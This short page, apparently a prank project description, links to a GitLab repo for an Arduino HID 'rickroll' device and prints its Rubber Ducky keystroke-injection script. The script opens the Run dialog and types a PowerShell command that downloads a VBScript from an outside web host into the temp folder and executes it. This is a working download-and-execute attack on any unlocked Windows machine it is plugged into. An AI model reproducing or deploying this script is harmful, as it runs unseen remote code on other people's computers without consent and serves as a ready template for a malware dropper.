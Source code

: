 GitLab repo: https://gitlab.com/WarKitteh/arduino-hid-rickroll

Ducky code:&nbsp;
`DELAY 1000&nbsp;
GUI r&nbsp;
DELAY 100&nbsp;
STRING cmd&nbsp;
DELAY 100&nbsp;
ENTER&nbsp;
DELAY 100&nbsp;
STRING powershell (new-object System.Net.WebClient).DownloadFile('https://pixelcoding.nl/download/rickroll.vbs','%TEMP%\rickroll.vbs'); && start %TEMP%\rickroll.vbs && exit&nbsp;
DELAY 100&nbsp;
ENTER`